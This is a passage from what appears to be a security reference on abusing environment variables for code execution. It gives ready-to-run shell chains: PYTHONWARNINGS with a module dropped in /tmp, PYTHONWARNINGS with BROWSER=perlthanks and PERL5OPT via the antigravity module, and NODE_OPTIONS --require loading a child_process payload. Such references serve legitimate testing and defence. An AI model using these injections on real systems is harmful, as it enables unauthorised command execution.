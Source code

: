 ```python
# ...
```

`PYTHONWARNINGS` can be used to execute arbitrary commands if there is a way to write a malicious Python module to a file system:

```bash
$ cat > /tmp/exec.py << EOF
import os
os.system("cmdname arg1 arg2")
EOF
$ PYTHONPATH="/tmp" PYTHONWARNINGS=all:0:exec.x:0:0 python3 python /dev/null
```

However, you can use the `antigravity` module from Python’s standard library to run arbitrary commands. Running `import antigravity` will immediately open a browser to the `xkcd` comic that joked that `import antigravity` in Python would grant you the ability to fly. The `antigravity` uses another module from the standard library called `webbrowser` to open a browser. This module checks `PATH` for a large variety of browsers, including `mosaic, opera, skipstone, konqueror, chrome, chromium, firefox, links, elinks and lynx`. It also accepts an environment variable `BROWSER` that can be used to specify which process should be executed. It is not possible to supply arguments to the process in the environment variable and the `xkcd` comic URL is the one hard-coded argument for the command:

```bash
$ <BROWSER> https://xkcd.com/353/
```

One way to execute arbitrary commands is to leverage Perl which is commonly installed on systems and is even available in the standard Python docker image. However, the `perl` binary can not itself be used. This is because the first and only argument is the `xkcd` comic URL. The comic URL argument will cause an error and the process to exit without the `PERL5OPT` environment variable being used.

Fortunately, when Perl is available it is also common to have the default Perl scripts available, such as `perldoc` and `perlthanks`. These scripts will also error and exit with an invalid argument, but the error in this case happens later than the processing of the `PERL5OPT` environment variable. This means it is possible to leverage the Perl environment variables to execute commands.

```bash
$ PYTHONWARNINGS=all:0:antigravity.x:0:0 BROWSER=perlthanks PERL5OPT='-Mbase;print(`{cmdname,arg1,arg2}`);' python3 python /dev/null
```

References:
- [elttam Blog: HACKING WITH ENVIRONMENT VARIABLES Interesting environment variables to supply to scripting language interpreters](https://www.elttam.com/blog/env/)

## NODE_OPTIONS

[NODE_OPTIONS](https://nodejs.org/api/cli.html#node_optionsoptions) specifies a space-separated list of command-line options.

`NODE_OPTIONS` can be used to execute arbitrary commands if there is a way to write a malicious Node.js module to a file system:

```bash
$ cat > /tmp/exec << EOF
console.log(require("child_process").execSync("id").toString());
EOF
$ NODE_OPTIONS='--require /tmp/exec' node node /dev/null
```
